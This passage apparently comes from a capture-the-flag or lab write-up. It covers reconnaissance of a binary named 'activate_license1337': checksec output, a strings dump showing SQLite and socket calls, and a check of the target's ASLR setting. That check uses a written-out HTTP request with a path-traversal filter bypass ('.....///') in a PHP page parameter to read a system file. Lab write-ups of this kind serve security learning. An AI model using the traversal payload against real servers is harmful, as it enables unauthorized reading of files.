 The binary is compiled with full RELRO, NX, and PIE.

```bash
$ /opt/checksec.sh/checksec --file=activate_license1337
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   100) Symbols      No    0               3               activate_license1337
```

ASLR is also enabled on the target.

```http
GET /index.php?page=js/.....///.....///.....///.....///proc/sys/kernel/randomize_va_space HTTP/1.1
Host: 10.129.160.141
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 06 Apr 2022 16:44:02 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 2

2
```

Printable strings indicate interaction with a SQLite database, `license.sqlite`. There is a `CREATE TABLE` and `INSERT` statement for the `license` table.

```bash
/lib64/ld-linux-x86-64.so.2
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
sqlite3_reset
sqlite3_errmsg
sqlite3_exec
sqlite3_bind_text
sqlite3_finalize
sqlite3_close
sqlite3_open
sqlite3_busy_timeout
sqlite3_step
sqlite3_prepare_v2
socket
exit
htonl
htons
__isoc99_sscanf
inet_ntop
puts
fork
listen
__errno_location
bind
read
stderr
__sysv_signal
fwrite
fprintf
```